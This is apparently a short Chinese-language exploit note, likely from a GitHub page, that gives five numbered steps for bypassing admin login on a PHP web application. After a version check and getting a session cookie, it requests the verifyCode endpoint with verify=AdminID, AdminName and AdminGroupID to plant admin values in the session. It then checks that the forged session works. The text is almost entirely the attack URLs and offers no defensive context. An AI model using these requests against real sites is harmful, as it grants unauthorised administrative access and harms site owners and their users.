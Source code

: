 1.访问 /index.php/base?a=Version 判断版本

2.访问 /index.php/Admin/public/Login 生成一个 PHPSESSID

3.访问下面两条url 绕过session检测

```
/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminID&type=png
/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminName&type=png
```
4.访问 ```/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminGroupID&type=png```

5. 访问  ```/index.php/Admin/Public/AdminLeft/MenuTopID/7 判断PHPSESSID是否有效```
